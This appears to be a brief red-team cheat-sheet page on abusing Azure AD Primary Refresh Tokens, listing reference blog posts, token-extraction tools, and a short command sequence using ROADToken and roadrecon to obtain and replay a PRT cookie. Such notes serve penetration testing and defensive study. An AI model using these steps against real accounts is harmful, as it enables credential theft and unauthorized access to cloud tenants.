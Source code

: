 ```yaml
---
description: Primary Refresh Tokens
---
```


# PRT Abuse

- [https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/](https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/)
- [https://aadinternals.com/post/prt/](https://aadinternals.com/post/prt/)

```
$ roadrecon auth --prt-init
Cmd > ROADToken.exe <NONCE>
$ [proxychains] roadrecon auth [-d megacorp.db] --prt-cookie <COOKIE> [-ua '<USER_AGENT>']
```




## Tools

- [https://github.com/dirkjanm/ROADtoken](https://github.com/dirkjanm/ROADtoken)
- [https://github.com/leechristensen/RequestAADRefreshToken/](https://github.com/leechristensen/RequestAADRefreshToken/)
